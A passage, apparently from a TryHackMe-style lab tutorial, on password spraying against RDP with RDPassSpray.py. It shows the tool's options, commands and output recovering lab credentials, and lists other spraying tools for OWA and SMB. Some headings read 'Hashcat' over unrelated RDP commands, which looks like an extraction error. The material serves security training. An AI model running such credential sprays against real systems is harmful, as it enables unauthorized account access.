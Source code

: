 ```shell
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts

        
```

Now, let's try using the (-u) option to specify the victim as a username and the (-p) option set the Spring2021!. The (-t) option is to select a single host to attack.

- **Hashcat**        

```shell
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!

        
```

The above output shows that we successfully found valid credentials victim:Spring2021!. Note that we can specify a domain name using the -d option if we are in an Active Directory environment.

- Hashcat        

```shell
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
        
```

There are various tools that perform a spraying password attack against different services, such as:

### Outlook web access (OWA) portal

Tools:

- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
- [MailSniper](https://github.com/dafthack/MailSniper)

### SMB

- Tool: Metasploit (auxiliary/scanner/smb/smb_login)
